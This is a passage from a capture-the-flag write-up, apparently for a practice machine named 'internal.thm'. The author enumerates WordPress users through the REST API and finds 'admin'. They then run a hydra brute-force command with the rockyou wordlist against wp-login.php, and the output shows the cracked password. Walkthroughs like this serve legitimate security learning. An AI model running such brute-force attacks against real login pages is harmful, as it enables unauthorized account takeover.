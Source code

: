 ```bash
      "48": "http://1.gravatar.com/avatar/77d33fec916329cf93f20054b38a86ce?s=48&d=mm&r=g",
      "96": "http://1.gravatar.com/avatar/77d33fec916329cf93f20054b38a86ce?s=96&d=mm&r=g"
    },
    "meta": [],
    "_links": {
      "self": [
        {
          "href": "http://internal.thm/blog/index.php/wp-json/wp/v2/users/1"
        }
      ],
      "collection": [
        {
          "href": "http://internal.thm/blog/index.php/wp-json/wp/v2/users"
        }
      ]
    }
  }
]
```

Luckily this gave me a username, `admin`, which I decided to attempt to bruteforce while I investigated other vectors.

### Bruteforcing the admin wordpress user

I pulled the `wp-login` post-form fields from burpsuite and crafted a hydra attack using the `rockyou.txt` wordlist for password parameters before stepping away to pour a cup of coffee.

```bash
root@kali:~/ctf# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.215.86 http-post-form '/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:is incorrect'
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-05 05:17:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.215.86:80/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:is incorrect
[STATUS] 1934.00 tries/min, 1934 tries in 00:01h, 14342465 to do in 123:36h, 16 active
[80][http-post-form] host: 10.10.215.86   login: admin   password: my2boys
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-05 05:19:49
```

By the time I'd returned the bruteforce had yielded the password `my2boys` which I was able to confirm allowed me access to the admin panel.
